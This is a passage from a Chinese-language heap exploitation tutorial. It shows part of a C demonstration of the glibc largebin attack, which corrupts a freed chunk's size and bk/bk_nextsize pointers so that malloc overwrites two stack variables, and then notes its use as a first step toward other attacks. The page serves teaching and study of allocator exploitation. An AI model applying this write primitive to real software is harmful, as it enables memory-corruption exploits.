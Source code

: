  ```c
     free(p3);
     fprintf(stderr, "free 掉第三个，他会被放到 unsorted bin 中: [ %p <--> %p ]\n\n", (void *)(p3 - 2), (void *)(p3[0]));
 
     fprintf(stderr, "假设有个漏洞，可以覆盖掉第二个 chunk 的 \"size\" 以及 \"bk\"、\"bk_nextsize\" 指针\n");
     fprintf(stderr, "减少释放的第二个 chunk 的大小强制 malloc 把将要释放的第三个 large chunk 插入到 largebin 列表的头部（largebin 会按照大小排序）。覆盖掉栈变量。覆盖 bk 为 stack_var1-0x10，bk_nextsize 为 stack_var2-0x20\n\n");
 
     p2[-1] = 0x3f1;
     p2[0] = 0;
     p2[2] = 0;
     p2[1] = (unsigned long)(&stack_var1 - 2);
     p2[3] = (unsigned long)(&stack_var2 - 4);
 
     malloc(0x90);
     fprintf(stderr, "再次 malloc，会把释放的第三个 chunk 插入到 largebin 中，同时我们的目标已经改写了:\n");
     fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
     fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
     return 0;
 }
 ```

​    该技术可用于修改任意地址的值，例如栈上的变量stack_var1和 stack_var2。在实践中常常作为其他漏洞利用的前奏，例如在fastbin attack 中用于修改全局变量global_max_fast为一个很大的值。

​    首先我们分配 chunk p1, p2 和 p3，并且在它们之间插入其他的 chunk 以防止在释放时被合并。

 ![image-20211226161649066](/images/heap/image-20211226161649066.png)
